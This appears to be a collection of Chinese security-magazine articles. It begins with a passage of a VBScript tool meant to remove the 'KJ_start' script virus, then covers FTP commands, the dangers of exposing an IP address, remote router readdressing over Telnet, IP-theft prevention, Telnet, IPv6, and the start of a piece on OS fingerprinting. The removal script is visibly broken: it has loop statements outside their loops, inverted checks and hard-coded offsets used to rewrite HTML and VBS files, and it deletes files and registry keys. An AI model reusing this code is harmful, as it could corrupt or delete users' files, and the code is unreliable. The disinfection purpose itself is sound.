ext = fs.GetExtensionName(fl.Path)
ext = LCase(ext)
If (ext = "ini") Or (ext = "htt") Then
For i = Len(fl.Path) To 1 Step -1
If Mid(fl.Path, i, 1) = "\" Then
Exit For
End If
Next
End If
filename = Right(fl.Path, i - 2)
If (filename = "Folder.htt") Or (filename = "desktop.ini") Then
fs.DeleteFile fl.Path, True
End If
If (ext = "htt") Or (ext = "html") Or (ext = "htm") Or (ext = "asp") Or (ext = "php") Or (ext = "jsp") Then
modifyfile (fl.Path)
End If
killfile()
If (ext = "vbs") Then
modifyvbs (fl.Path)
End If
Next
End Sub

Sub modifyfile(folderspec)
On Error Resume Next
Dim ap, str, i, r, justify, ri, rp
Set ap = fs.OpenTextFile(folderspec)
str = ap.ReadAll
ap.Close
For i = 1 To Len(str)
If Mid(str, i, 1) = vbCrLf And Mid(str, i - 1, 1) = ">" Then
Exit For
End If
Next
justify = Left(str, i - 1)
For r = 1 To Len(justify)
If Mid(justify, r, 10) <> "KJ_start()" Then
Exit Sub
End If
Next
ri = 0
For r = Len(str) To 1 Step -1
If Mid(str, r, 7) = "</html>" Then
ri = r + 1
End If
Next
If ri = 2 Then
    Exit For
End If
Next
If ri = 1 Then
    For ri = 1 To Len(str)
        If Mid(str, ri, 9) = "exestring" Then    '查找病毒代码的起始位置
            Exit For
        End If
    Next
    Set rp = fs.CreateTextFile(folderspec, True)    '重建原文件
    rp.Write Mid(str, i - 1, ri - 298)    '把去除病毒代码的文件内容写入
    rp.Close
End If
r = r + 6
Set rp = fs.CreateTextFile(folderspec, True)
rp.Write Mid(str, i - 1, r)
rp.Close
End Sub

Sub killfile()    '删除病毒的其它副本
On Error Resume Next
Dim sharefile, gif, gif1
gif = windir & "\system32\kjwall.gif"
gif1 = windir & "\web\kjwall.gif"
sharefile = Left(windir, 3) & "Program Files\Common Files\Microsoft Shared\Stationery\blank.htm"
If (fs.FileExists(sharefile)) Or (fs.FileExists(gif)) Or (fs.FileExists(gif1)) Then    '判断文件是否存在
    fs.DeleteFile sharefile, True    '存在，则删除
    fs.DeleteFile gif, True
    fs.DeleteFile gif1, True
End If
End Sub

Sub rewriteReg()    '恢复病毒修改过的注册表
Dim OutLookVersion
OutLookVersion = ws.RegRead("HKEY_LOCAL_MACHINE\Software\Microsoft\Outlook Express\MediaVer")    '从注册表里读出 Outlook 的版本值
ws.regwrite "HKEY_CURRENT_USER\Identities\" & DefaultId & "\Software\Microsoft\Outlook Express\" & Left(OutLookVersion,1) & "0\Mail\Compose Use Stationery", 0, "REG_DWORD"
ws.regdelete "HKEY_CURRENT_USER\Identities\" & DefaultId & "\Software\Microsoft\Outlook Express\" & Left(OutLookVersion,1) & "0\Mail\Stationery Name"
ws.regdelete "HKEY_CURRENT_USER\Identities\" & DefaultId & "\Software\Microsoft\Outlook Express\" & Left(OutLookVersion,1) & "0\Mail\Wide Stationery Name"
ws.regdelete "HKEY_CURRENT_USER\Identities\" & DefaultId & "\Software\Microsoft\Outlook Express\" & Left(OutLookVersion,1) & "0\Mail\Wide Stationery Name"
ws.regwrite "HKEY_CURRENT_USER\Software\Microsoft\Windows Messaging Subsystem\Profiles\Microsoft Outlook\Internet Settings\0a0d020000000000c000000000000046\001e0360", "", "REG_SZ"
ws.regwrite "HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows Messaging Subsystem\Profiles\Microsoft Outlook\Internet Settings\0a0d020000000000c000000000000046\001e0360", "", "REG_SZ"
ws.RegDelete "HKEY_CURRENT_USER\Software\Microsoft\Office\10.0\Outlook\Options\Mail\EditorPreference", 131072, "REG_DWORD"
ws.RegDelete "HKEY_CURRENT_USER\Software\Microsoft\Office\10.0\Common\Mail Settings\NewStationery"
ws.RegDelete "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\Kernel32"
ws.regwrite "HKEY_CLASSES_ROOT\dllfile\DefaultIcon", "%SystemRoot%\system32\shell32.dll,-154", "REG_SZ"
ws.RegDelete "HKEY_CLASSES_ROOT\dllfile\ScriptEngine\", "VBScript"
ws.RegDelete "HKEY_CLASSES_ROOT\dllFile\Shell\Open\Command\"
ws.RegDelete "HKEY_CLASSES_ROOT\dllFile\shellex\PropertySheetHandlers\WSHProps\"
ws.RegDelete "HKEY_CLASSES_ROOT\dllFile\ScriptHostEncode\"
ws.regwrite "HKEY_LOCAL_MACHINE\Software\Microsoft\Outlook Express\Degree", "", "REG_SZ"
End Sub

Sub modifyvbs(folderspec)    '恢复被病毒感染过的VBS文件
Dim ap, str, j, rp
Set ap = fs.OpenTextFile(folderspec)
str = ap.ReadAll
ap.Close
For i = 1 To Len(str)
    If (Mid(str, i, 10) <> "KJ_start()") Then
        Exit Sub
    End If
Next
For i = 1 To Len(str)
    If (Mid(str, i, 9) = "ExeString") Then
        Exit For
    End If
Next
i = i - 1
Set rp = fs.CreateTextFile(folderspec, True)
rp.Write Mid(str, 1, i)
rp.Close
End Sub
********code ends********
```

其实脚本病毒并不是那么神秘，我们完全可以知道它的原理，以及用相关的方法清除它和防范它，这里我就不详细说了，前几期的《黑客X档案》里讲得很清楚了，关键是自己，要提高自己的防范意识，定期更新杀毒软件的病毒库，相信病毒会离你远去。

## FTP基本命令

> ○文／水妖

FTP 的命令行格式为：`ftp -v -d -i -n -g -a -w:host [主机名]`，其中 `-v` 显示远程服务器的所有响应信息；`-n` 限制 ftp 的自动登录；`-d` 使用调试方式；`-g` 取消全局文件名；`-i` 多文件进行传输时，关闭交互提示；`-s:文件名` 指定一个文本文件，当 ftp 启动后自动运行其中的命令（该参数中不允许有空格）；`-a` 指定绑定连接时使用任一本地接口；`-w buffersize` 替代默认缓冲区大小为 4096；`-host` 指定主机名或 IP 地址，连接的远程主机。

- 1. `!`：在本地机中执行交互 shell，`exit` 回到 ftp 环境。
- 2. `$ macro-name`：执行宏定义 `macro-name`。
- 3. `append`：将本地文件追加到远程系统主机，若未指定远程系统文件名，则使用本地文件名。
- 4. `ascii`：使用 ASCII 类型传输方式。
- 5. `bell`：每个命令执行完毕后计算机响铃一次。
- 6. `binary`：使用二进制文件传输方式。
- 7. `bye`：退出 ftp 会话过程。
- 8. `cd`：进入远程主机目录。
- 9. `close`：中断与远程服务器的 ftp 会话（与 `open` 对应）。
- 10. `delete remote-file`：删除远程主机文件。
- 11. `debug [debug-value]`：设置调试方式，显示发送至远程主机的每条命令，若设为 0，表示取消 `debug`。
- 12. `dir`：显示远程主机目录，并将结果存入本地文件。
- 13. `disconnect`：同 `close`。
- 14. `get`：将远程主机的文件传至本地硬盘。
- 15. `glob`：设置 `mdelete`、`mget`、`mput` 的文件名扩展，缺省时不扩展文件名，与命令行的 `-g` 参数相同。
- 16. `hash`：每传输 1024 字节，显示一个 hash 符号（#）。
- 17. `help`：显示 ftp 内部命令的帮助信息，如：`help command`（一个命令）。
- 18. `lcd`：将本地工作目录切换至 `dir`。
- 19. `literal`：传送任一 ftp 命令。
- 20. `ls`：显示远程目录，并存入本地文件。
- 21. `mdelete`：删除远程主机文件。
- 22. `mdir`：与 `dir` 类似，但可指定多个远程文件。
- 23. `mget`：传输多个远程文件。
- 24. `mkdir`：在远程主机中创建一个目录。
- 25. `mls`：显示远程主机目录的清单并存入本地硬盘，可指定多个文件名。
- 26. `mput`：将多个文件传输至远程主机。
- 27. `open host`：建立指定 ftp 服务器连接，可指定连接端口。
- 28. `prompt`：设置多个文件传输时的交互提示。
- 29. `put`：将本地文件传送至远程主机。
- 30. `pwd`：显示远程主机的当前工作目录。
- 31. `quit`：同 `bye`，退出 ftp 会话。
- 32. `quote arg1,arg2...`：将参数逐字发至远程 ftp 服务器。
- 33. `recv`：同 `get`，将远程主机的文件传至本地硬盘。
- 34. `rhelp`：请求获得远程主机的帮助。
- 35. `rename`：更改远程主机文件名。
- 36. `rmdir dir-name`：删除远程主机目录。
- 37. `send`：同 `put`，将本地文件传送至远程主机。
- 38. `status`：显示当前 ftp 状态。
- 39. `trace`：设置包跟踪。
- 40. `type`：设置文件传输类型为 `type-name`，缺省为 `ascii`。
- 41. `user user-name`：向远程主机表明自己的身份，需要口令时，必须输入口令，如：`user root passwd` 表明自己是 root，passwd 是自己的密码。
- 42. `verbose`：同命令行的 `-v` 参数，即设置详尽报告方式，ftp 服务器的所有响应将显示给用户，缺省为 `on`。
- 43. `?`：同 `help`，显示 ftp 内部命令的帮助信息。

## 暴露自己IP地址的危险

暴露自己的 IP 地址是很危险的，道理很简单，暴露了 IP 地址，也就等于告诉了敌人要攻击的目标。那么，暴露自己的 IP 地址究竟有什么危险呢？我们又该如何减少这些危险呢？不要着急，听我慢慢道来。

首先谈一下危险。如果你用的是 Windows 系列操作系统，而又没有打什么补丁的话，就有可能暴露了自己的 IP 地址，你也许就会经常遇到莫名其妙蓝屏的情况，就可能是被人炸了。目前最经常利用的就是 IGMP 漏洞，而这方面的工具就要数 IPHacker 了。被炸的症状就是网络连接被切断，重新启动后恢复，补救的办法就是及时安装相应的补丁了。另外，还有一种叫做 ArpTest 的小工具，它可以攻击某个 IP 地址或某段 IP 地址，但是只能在局域网中使用。（现象是出现对话框，回车后对话框消失。）危险就在于这个软件可以设定发送次数和时间间隔，设想时间间隔为 0，发送次数为 999999999 次，你会有什么感觉？另外，如果你在聊天室或 IRC 聊天时暴露了自己的 IP 地址，那么麻烦就更大了，恐怕你连聊天的心情也没了。

大家都用过 OICQ 吧？答案应该是肯定的。目前针对 OICQ 的工具实在是太多了，如果你暴露了自己的 IP 地址，现在就有工具查到你这个 IP 地址的 OICQ 的号码，进一步的又有远程 OICQ 密码破解器。看来你的 OICQ 号码真的不安全！其实暴露自己的 IP 地址的危险不止于此！你是否知道 Cookie 的漏洞？恶意攻击者可以运用类似社会工程学的方法诱使你访问他的一个网页，而这个网页中内嵌的脚本就可以很容易地从你机器上的 Cookie 中提取出你在这个论坛的用户名和密码。另外，如果你是 NT 的用户，并且上 OICQ，那么暴露了自己的 IP 地址，攻击者就很可能利用目前一抓一大把的 NT 漏洞来获取你的主机上的机密文件。不仅如此，如果你暴露了自己的 IP 地址，追踪者还能查到你系统上的很多信息，扫描器能找出你主机上的很多漏洞，而掌握了你的系统漏洞的人，就可以入侵你的主机，进而控制你的机器，还有令人讨厌的监听软件，是不是很恐怖？！

那么如何减少这些危险呢？至于系统和软件的安全，应该注意及时更新版本和安装补丁了，还要经常去一些安全站点转转，及时了解关于你使用的系统和软件的安全动态。另外，还要安装杀毒软件和防火墙。

下面说说关于 IP 地址的安全问题。以前有个号称可以隐藏 IP 地址的软件，结果证明是假的。另外，据我所知，目前还没有什么好办法完全隐藏自己的 IP 地址。不过，还是有一些办法减少暴露 IP 地址的危险的。例如，你可以通过设置防火墙策略过滤 ICMP 协议，那么别人 PING 这个 IP 地址的时候就会返回超时错误，就有可能让人误以为这个 IP 不可用，自然就不会攻击你了。还有，合理地使用代理服务器也能相对隐藏 IP 地址，也就减少了被攻击的危险。


## 远程修改路由器的 IP 地址

在网络管理过程中，由于负载均衡和其他方面的一些考虑，需要对一部分网点的路由器的广域网口地址进行修改。本文以中国建设银行山东枣庄市分行的金融网络为例，介绍一种利用 Telnet 远程登录修改远程网点路由器的广域网端口 IP 地址的方法。实现前提条件是网络必须连通。

## 一、网络环境

整个网络把各区县和市分行连接起来，市分行采用了 3Com 公司的 NetBuilder II 路由器，区县行网点采用了 3Com 公司的 Remote Office 8221 路由器，路由器之间利用 X.25 进行通信。假设市行路由器有 2 个广域网口（端口 3 和 4）、1 个局域网口（端口 1）；网点路由器有 1 个广域网口（端口 4）和 1 个局域网口（端口 1），端口地址和掩码如附表所示，具体连接模式见下图。

| 设备 | 端口 | X.25 地址 | IP 地址 | 掩码 |
|---|---|---|---|---|
| 市行路由器 | 广域网口 3 | 39858001 | 100.100.100.100 | 255.255.255.0 |
| 市行路由器 | 广域网口 4 | 39858002 | 100.100.200.100 | 255.255.255.0 |
| 市行路由器 | 局域网口 1 | / | 10.10.10.10 | 255.255.255.0 |
| 网点路由器 | 广域网口 4 | 39858001 | 100.100.100.200 | 255.255.255.0 |
| 网点路由器 | 局域网口 1 | / | 10.10.20.10 | 255.255.255.0 |

## 二、修改要求

把区县行网点路由器的广域网口的 IP 地址改为 100.100.200.200，使它改为与市行路由器的端口 4 建立连接。

## 三、修改步骤

在本地路由器上以 root 身份登录，为要修改的远方路由器在本地设立必要的配置：

```text
#ADD -IP ADDRess 100.100.200.200 #39858001
#ADD -IP ROUTe 10.10.20.0 255.255.255.0 100.100.200.200
```

- 1. 利用 Telnet 以 root 身份登录到对方路由器，配置如下：

```text
#ADD !4 -IP NETAddress 100.100.200.200 255.255.255.0
#ADD -IP ADDRess 100.100.200.100 #39858002
#ADD -IP ROUTe 10.10.10.0 255.255.255.0 100.100.200.100
```

- 2. 下面这个命令会终止通信，因此要停止业务的进行。

```text
#SETDefault !4 -PORT CONTRol=Enabled
```

进行完上面命令后，会发现 Telnet 处于挂起状态，并于大约 1 分钟后自动终结，可到本地路由器操作系统平台。

- 3. 用 ping 命令对新建立的远方路由器的广域口 IP 地址进行连通性测试：

```text
#PING 100.100.200.200
```

ping 通后才可执行下面的操作。

- 4. 删除本地关于对方路由器旧地址的配置参数：

```text
#DELete -IP ROUTe 10.10.10.0 100.100.100.200
#DELete -IP ADDRess 100.100.100.200
```

- 5. 用新的 IP 地址登录到对方路由器，删除关于旧 IP 地址的配置参数：

```text
#TELnet 100.100.200.200
#DELete -IP ROUTe 10.10.10.0 100.100.100.100
#DELete !4 -IP NETAddress 100.100.100.200
```

以 root 身份成功登录后，执行下面两步。

- 6. 执行完上面命令后，退出路由器操作环境。

## 四、注意事项

- 1. 修改对方路由器的配置最好选在业务不忙时或一天的业务终了时进行，以免影响业务。

- 2. 为便于讲解明白，在执行步骤中的命令及参数均采用全名，在使用时可采用简写名（只需要保留命令词中的大写部分，命令在使用时不区分大小写）。例如以下命令：

```text
#DELete -IP ADDRess 100.100.100.200
```

可简写如下：

```text
del -ip addr 100.100.100.200
```

- 3. 对于修改步骤部分中的第 4 步和第 5 步也可以不予执行，这样可起到对市行线路的备份作用。但需在路由表中 2 条路径中的一条后加上 Override 选项，以确定它们的优先顺序，否则会出现网络时通时断的通信混乱状况。

- 4. 利用 Telnet 同样可修改远方路由器的局域网口的 IP 地址和业务用机的 IP 地址，但执行顺序应为先修改业务用机地址（需要重启机器），再修改路由器的局域网口的 IP 地址。

## 解决 IP 盗用的三种方法手段

局域网上若有两台主机 IP 地址相同，则两台主机相互报警，造成应用混乱。因此，IP 地址盗用成了网管员最头疼的问题。当几百台，甚至上千台主机同时上网，如何控制 IP 地址盗用？

## 一、引入问题

对于集团用户而言，多数都用专线方式接入互联网。网络管理部门在规划的网段中，为注册用户分配并制定了相应的网络 IP 地址资源，以保证通信数据的正常传输。这里，静态的 IP 地址是必不可少的配置项目之一，它享有“网络通信身份证”的特权。网络管理员在配置 IP 地址资源时，对其正确性有特殊的要求，表现在下面两个方面：分配的地址应在规划的子网段范围内；分配的 IP 地址对任何联网的主机必须是唯一的，即无二义性。

在实际中，网络管理员为入网用户分配和提供的 IP 地址，只有通过客户端进行正确注册后才有效。这为终端用户直接接触 IP 地址提供了一条途径。由于终端用户的介入，入网用户有可能自由修改 IP 地址。改动后的 IP 地址在联网运行时可导致三种结果：

- 1. 非法的 IP 地址，自行修改的 IP 地址不在规划的网段内，网络呼叫中断；
- 2. 盗用的 IP 地址，与已经分配且正在联网运行的合法的 IP 地址发生资源冲突，无法链接；
- 3. 非法占用已分配的资源，盗用其他注册用户的合法 IP 地址（且注册该 IP 地址的机器未通电运行）联网通信。前两种情况可被网络系统自行识别而屏蔽，导致运行中断；第三种情况操作系统则不能有效判别。如果系统管理员未采取防范措施，第三种情况将涉及到注册用户的合法权益，危害很大。

## 二、工作原理

TCP/IP 协议模型由四层结构组成。其中的网络接口层位于网络层与物理层之间，由 NIC 和设备驱动程序组成。该层上的数据可以通过单一而特定的网络被发送和接收。这种单一性和特定性由 NIC 的物理地址 MAC 决定。每个 Ethernet NIC 厂家的 MAC 都必须严格遵守 IEEE 组织的规定，保证世界上任何 NIC 的 MAC 都是唯一而无二义性的。因此，MAC 固化在每个 NIC 中，且只被授予访问权限。

在 Ethernet 中，MAC 地址存在于每个 Ethernet 包的头部，Ethernet 交换设备依据 Ethernet 包头中的 MAC 源地址和 MAC 目的地址实现数据包的交换和传输。

网络层在把高层协议中的网络地址转换成 Ethernet、FDDI、Token Ring 等协议使用的地址时，需要将 IP 地址映射到物理接口，以实现网络节点间的通信。为实现这种映射，TCP/IP 协议族在网络接口层中提供地址解析协议（ARP），实现将 IP 地址转换成硬件地址。在网络通信时，提出硬件地址解析请求的机器会发送广播文给本网中其他联网的机器，其中与目标 IP 地址匹配的机器，会响应地址解析请求，将其硬件地址返回给源机器。而网络中的其他机器则不响应此请求，但它们监听这些请求数据包，并将源机器的 IP 地址及硬件地址记录存入。值得注意的是，ARP 的运行机制具有动态的特点，当 IP 地址和硬件地址随时间的推移发生变化时，能及时地提供修正。

实际中，用户因某种原因有改动客户端的 IP 地址和更换网络适配器的可能性。这种改动有时具有随意性，尤其当这种改动不在网络管理员的监控之内时，将直接影响网络 IP 地址的管理、通信流量的计算等网络资源环境的安全运行。为了有效地防止和杜绝这类问题的发生，保证 IP 地址的唯一性，网络管理员必须建立规范的 IP 地址分配表、IP 地址和硬件地址（MAC）登记表，并且做到完备备案。

## 三、解决途径

可以通过下面三种方法制定相应的 IP 地址管理措施和对策，来监测和防止 IP 地址的随意改动问题，提高网络管理的科学性和安全性。

- 1. 利用 UNIX、Windows 系统提供的 ARP 功能，定时收集信息，定向输出存入数据库或文档文件，形成实时的 IP 地址与网卡硬件地址的对应表。并结合编写查询程序实现与历史记录自动排查，确定问题的发生点及原因。

- 2. 利用网络交换设备的网络管理功能，完善检测手段，提高网络故障的消查能力。目前有许多种网络交换机内置网络管理功能。如 3Com SuperStack II 系列交换机，具备寻找 IP 地址设置冲突对应交换机端口的功能，可以迅速准确地定位和查找故障主机点。

- 3. 根据接入互联网 Internet 的 IP 地址管理是通过 IP 地址分配和路由器的配置来实现的原理，可以通过设置静态路由表，完成 IP 地址和硬件地址的严格对应，保证已分配 IP 地址的完全唯一性。

## 四、三种方法比较

- 1. 无需借助额外的网络设备，检测结果靠人工判读，对非冲突、非分配 IP 地址的故障处理具有一定的滞后性。

- 2. 监测效果快速准确。需要具有网络管理功能的交换设备，交换机自动跟踪 IP 冲突地址，监测冲突需要人工完成。对非冲突、非分配 IP 地址的故障处理具有一定的滞后性。

- 3. 对接入 Internet 的 IP 地址管理效果明显。能自动锁定任何非法 IP 地址的路由出口，使之仅能访问内部 IP 地址；运行于局域网内，并对非冲突、非分配 IP 地址的故障处理具有实时性。它还有效制止了非法 IP 地址用户的访问空间，保证注册用户的合法权益，也给系统维护提供了更多便利。

Telnet 是用于 Internet 的远程登录的一个程序工具。它可以使用户坐在已上网的电脑键盘前通过网络进入到另一台已上网的电脑，并使它们互相连通。这种连通可以发生在同一房间里面的电脑或是在世界各地的已上网电脑。一般来说，被连通的计算机并且为网络上所有用户提供服务的计算机称之为服务器（Servers），而自己使用的机器称之为客户端（Customer）。一旦连通后，客户机可以享有服务器所提供的一切服务，用户可以运行通常的交互过程（注册进入、执行命令），也可以进入很多的特殊服务器，如寻找图书资料。

使用 Telnet 的最简单的方法是在命令行键入：

```text
%telnet remote-computer-name(or IP)
```

这里使用的是 UNIX 系统的 C shell，因为命令的诠释符是百分号“%”。如果使用的是其他的计算机系统（比如：DOS、VAX/VMS、Macintosh）命令，它们只在细节上有些差异，而在本质上是大同小异的。下面举一个基本的 Telnet 使用例子：

```text
telnet porky.math.ukans.edu
Trying 129.237.128.11...
Connected to porky.math.ukans.edu.
Escape character is '^]'.
SunOS UNIX(porky)
login: wl
password: xxxxxxxx
Last Login: Tue Mar 28 05:35 from ns.bta.net.cn
SunOS Release 4.1.3_U1(SLIPPERY1) #3: Sun Nov 20 23:47:23 CST 1999.
No match.
if. Expression syntax.
porky/serv/wl% ls
hello
: porky/serv/wl%
porky/serv/wl% cd /
porky/% ls
Mail/ dev/ home/ mnt/ sbin/ usr/
News/ domain/ home1/ net/ serv/ var/
Record/ etc/ kadb+ pcfs/ sys@ vmunix*
bin@ export/ lib@ print/ tmp/
boot gofer/ lost+found/ record/ tmp_mnt/
porky/%
```

上述的例子是用 Telnet 寻找一个叫做 porky.math.ukans.edu 的远程计算机，在找到这台计算机以后，已上网用户的计算机就成为它的一个终端，这时屏幕出现的对话与用户在 HOST 上连接的终端一样，用户必须在此登录进入（login）和注销退出（logout）。在 login 后，可给出任何适合远程系统的命令，因为 “porky.math.ukans.edu” 面向的是 UNIX 系统，所有标准的 UNIX 命令（像 ls 和 pwd）都可以使用。当用户从远程系统退出时，也就从 Telnet 退出，并运行自己的本地系统。实际上，Telnet 是一个可以注册进入远程计算机系统的工具。

## Internet 协议的下一版本 IPv6

现行的 IPv4 自 1981 年 RFC 791 标准发布以来并没有多大的改变。事实证明，IPv4 具有相当强盛的生命力，易于实现且互操作性良好，经典性从早期小规模互联网扩展到如今全球范围 Internet 应用的终端，所有这一切都归功于 IPv4 最初的优良设计。

但是，近些年一些发展已使之前未曾预料到的问题出现。近年来 Internet 呈指数级的飞速发展，导致 IPv4 地址空间几近耗竭。IP 地址变得越来越珍稀，迫使许多企业不得不使用 NAT 将多个内部地址映射成一个公共 IP 地址。地址转换技术虽然在一定程度上缓解了公共 IP 地址匮乏的压力，但它不支持某些网络层安全协议，以及难免在地址映射中出现种种错误，这又造成了一些新的问题。而且，靠 NAT 并不可能从根本上解决 IP 地址匮乏问题，随着联网设备的急剧增加，IPv4 公共地址总有一天会完全耗尽。

Internet 主干网络对路由器维护大型路由表能力的要求增强。目前的 IPv4 路由基本结构是平面路由机制和无类路由机制混合，Internet 核心主干网路由器可维护 50000 条以上的路由表项。

地址配置趋向于要求更简单化。目前绝大多数 IPv4 地址配置需要手工操作或使用 DHCP（动态主机配置协议）完成。随着越来越多的计算机和相关设备使用 IP 地址，必然要求提高地址配置的自动化程度，使之更简单化，且其本地配置设置能不依赖于 DHCP 协议的管理。

IP 层安全需求的增长。在 Internet 这样的公共媒体上进行专用数据通信，一般都要添加加密服务，以此保证数据在传输过程中不会泄露或被窃取。虽然目前有 IPSec 协议可以提供对 IPv4 数据包的安全保护，但由于该协议只是可选标准，企业使用各自私有安全解决方案的情况还是相当普遍。

更好的实时 QoS 支持的需求。IPv4 的 QoS 标准在实时传输支持上依赖于 IPv4 的服务类型字段（TOS）和使用 UDP 或 TCP 端口进行身份认证。但 IPv4 的 TOS 字段功能有限，而同时可能造成实时传输延时的因素又太多。此外，如果 IPv4 数据包加密的话，就无法使用 TCP/UDP 端口进行身份认证。

为了解决上述问题，Internet 工程任务组（IETF）开发了 IPv6。这一新版本也常被称为下一代 IP，综合了多个对 IPv4 进行升级的提案。在设计上，IPv6 力图避免增加太多的新特性，从而尽可能地减少对现有的高层和低层协议的冲击。

## IPv6 特性

以下列举了 IPv6 协议的一些新增特性：新包头格式、更大的地址空间、高效的层次寻址及路由结构、全状态和无状态地址配置、内置安全设施、更好的 QoS 支持、用于邻节点交互的新协议、可扩展性。

下面依次具体讨论这些新特性：

- 1. **新包头格式**

新 IPv6 包头的设计原则是力图将包头开销降到最低。具体做法是将一些非关键性字段和可选字段移出包头，置于 IPv6 包头之后的扩展包头中。因此尽管 IPv6 地址长度是 IPv4 的四倍，但包头仅为 IPv4 的两倍。改进后的 IPv6 包头在中继路由中的处理效率更高。

由于两者的包头没有互操作性，且 IPv6 也并非是可向后兼容 IPv4 的功能扩展集，因此为了识别和处理这两种包头格式，必须在主机和路由器中分别实现 IPv4 和 IPv6。

- 2. **更大的地址空间**

IPv6 地址长度为 128 位（16 字节），即有 2^128-1（3.4E+38）个地址。这一地址空间是 IPv4 地址空间的 1E28 倍（或以目前全球总人数而言，人均可分配 1.8×10^19 个 IPv6 地址）。IPv6 采用分类地址模式，支持从 Internet 核心主干网到企业内部子网等多级子网地址分配方式。

在 IPv6 的庞大地址空间中，目前全球联网设备已分配掉的地址仅占其中极小一部分，有足够的余量可供未来的发展之用。同时由于有充足可用的地址空间，NAT 之类的地址转换技术将不再需要。

- 3. **高效的层次寻址及路由结构**

IPv6 采用聚类机制，定义非常灵活的层次寻址及路由结构。同一层次上的多个网络在上层路由器中表示为一个统一的网络前缀，这样可以显著减少路由器必须维护的路由表项。在理想情况下，一个核心主干网路由器只须维护不超过 8192 个表项。这大大降低了路由器寻址和存储开销。

- 4. **全状态和无状态地址配置**

为了简化主机配置，IPv6 支持全状态和无状态（stateful and stateless）两种地址配置方式。在 IPv4 中，动态主机配置协议 DHCP 实现了主机 IP 地址及其相关配置的自动设置，IPv6 承继 IPv4 的这种自动配置服务，并将其称为全状态自动配置（stateful autoconfiguration）。除了全状态自动配置，IPv6 还采用了一种被称为无状态自动配置（stateless autoconfiguration）的自动配置服务。在无状态自动配置过程中，在线主机自动获得本地路由器的地址前缀以及链路局部地址和相关配置。

- 5. **内置安全设施**

IPv6 侧重支持 IPSec。这要求提供基于标准的网络安全解决方案，以便满足和提高不同的 IPv6 实现之间的协同工作能力。

- 6. **更好的 QoS 支持**

IPv6 包头的新字段定义了数据流如何识别和处理。IPv6 包头中的流标识（Flow Label）字段用于识别数据流身份，利用该字段，IPv6 允许终端用户对通信质量提出要求。路由器可以根据该字段标识出同属于某一特定数据流的所有包，并按需对这些包提供特定的处理。由于数据流身份信息包含在 IPv6 包头中，因此即使是经过 IPSec 加密的数据包也可以获得 QoS 支持。

- 7. **用于邻节点交互的新协议**

IPv6 的邻居发现协议（Neighbor Discovery Protocol）使用一系列 IPv6 控制信息报文（ICMPv6）来实现相邻节点（同一链路上的节点）的交互管理。邻居发现协议以及高效的组播和单播邻居发现报文替代了 IPv4 基于广播的地址解析协议 ARP、ICMPv4 路由器发现和 ICMPv4 重定向报文。

- 8. **可扩展性**

IPv6 特性具有很强的可扩展性，新特性可以添加在 IPv6 包头。

## IPv4 和 IPv6 的差别

之后的扩展包头中。不像 IPv4，包头最多只能支持 40 字节的可选项，IPv6 扩展包头的大小仅受到整个 IPv6 包最大字节数的限制。

下面我们将 IPv4 和 IPv6 的主要差别列于表一中，以便对照比较。

在 IPv6 中，数据链路层帧结构包括三部分：数据链路层报头和报尾、IPv6 包头、有效载荷。如图 2 所示：

| IPv4 | IPv6 |
|---|---|
| 地址长度 32 位 | 地址长度 128 位 |
| IPsec 为可选扩展协议 | IPsec 成为 IPv6 的组成部分，对 IPsec 的支持是必须的 |
| 包头中没有支持 QoS 的数据标识项 | 包头中的流标识字段提供数据流识别功能，支持不同 QoS 要求 |
| 由路由器和发送主机两者完成分段 | 路由器不再做分段工作，分段仅由发送主机进行 |
| 包头包括完整性检验和 | 包头中不包括完整性检验和 |
| 包头中包含可选项 | 所有可选内容全部移至扩展包头中 |
| ARP 协议被用于将 ARP 请求映射，对 IPv4 地址进行解析 | 邻居请求报文替代了 ARP 请求报文 |
| IGMP 协议用于管理本地子网成员 | 由 MLD 报文替代 IGMP 管理本地子网 |
| ICMP 路由器发现为可选协议，用于确定最佳默认网关的 IPv4 地址 | ICMPv6 路由器请求和路由器发布报文为必选协议 |
| 使用广播地址发送数据流至子网所有节点 | IPv6 不再有广播地址，而是使用面向链路局部范围内所有节点的组播地址 |
| 地址配置方式为手工操作或通过 DHCP 协议 | 地址自动配置 |
| 在 DNS 服务器中，IPv4 主机名称与地址的映射使用 A 资源记录来实现 | IPv6 主机名称与地址的映射使用新的 AAAA 资源记录来实现 |
| IN-ADDR.ARPA 域提供 IPv4 地址-主机名解析服务 | IP6.INT 域提供 IPv6 的地址-主机名解析服务 |
| 支持 576 字节数据包（可被远处分段） | 支持 1280 字节数据包（不分段） |


在以太网、令牌环网和 FDDI 网等典型的局域网技术中，IPv6 有两种封装方式：Ethernet II 封装或应用于 IEEE 802.3、IEEE 802.5 和 FDDI 的 SNAP（子网访问协议）封装。

### 1、Ethernet II 封装

用 Ethernet II 进行封装时，Ethernet II 报头中的 EtherType 字段值为：0x86DD（该字段值 0x800 表示 IPv4 包）。使用 Ethernet II 封装，IPv6 包最小 46 字节，最大 1500 字节。图 3 为 IPv6 包的 Ethernet II 封装。


### 2、IEEE 802.3、IEEE 802.5 和 FDDI 封装

在 IEEE 802.3（以太网）、IEEE 802.5（令牌环网）和 FDDI 网中，使用 SNAP 协议封装，EtherType 字段值为：0x86DD。图 4 为 IPv6 包的 SNAP 封装。

在以太网中使用 SNAP 封装，IPv6 包最小 38 字节，最大 1492 字节。在 FDDI 网中，IPv6 包均可达 4352 个字节。有关令牌环网中 IPv6 包的最大字节数，有兴趣的读者可参阅 RFC 2470。


## IP 窗口

利用 TCP/IP 堆栈进行远程操作系统判别

利用 TCP/IP 堆栈进行远程操作系统判别的方法，正确识别一个操作系统的类型在网络安全领域的重要性想必大家都是明白的。

## 一、传统的技术

传统的判别操作系统的技术是通过直接登录主机的办法来识别的。比如：

```text
myhost> telnet hpux.server1.net
Trying 123.123.123.123...
Connected to hpux.server1.net.
Escape character is '^]'.
HP-UX hpuxB B.10.01 A9000/715 (ttyp2)
login:
```

